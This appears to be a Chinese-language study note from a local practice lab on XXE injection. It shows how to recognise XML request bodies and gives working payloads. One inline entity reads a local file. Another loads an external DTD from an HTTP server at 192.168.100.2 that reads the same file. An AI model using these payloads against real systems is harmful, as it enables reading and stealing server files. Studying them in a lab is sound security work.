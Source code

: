 ![image-20240512111755122](D:\Infiltration\笔记\note\图片\image-20240512111755122-1715505368532-1.png)

xml数据包可以看Content-Type,和数据包格式，

一般的数据包格式为：user=admin&pass=123

json格式的为：message{    "user":100,  

 						 "passwd":20 }

![image-20240512111856987](D:\Infiltration\笔记\note\图片\image-20240512111856987.png)

##### 回显

###### 直接构造

构造恶意xml数据包读取d盘下123.txt

```
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///d:/123.txt">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```

成功读取到d盘下123.txt

![image-20240512113002452](D:\Infiltration\笔记\note\图片\image-20240512113002452.png)

###### 外部引用实体dtd

创建一个123.dtd文件到到服务器，因为靶场就在本机，我就直接在本地创建

读取d盘下123.txt

```
<!ENTITY send SYSTEM "file:///d:/123.txt">
```

![image-20240512131915132](D:\Infiltration\笔记\note\图片\image-20240512131915132.png)

然后使用python开启http服务

![image-20240512132136838](D:\Infiltration\笔记\note\图片\image-20240512132136838.png)



成功执行

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://192.168.100.2:5566/123.dtd">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>
```
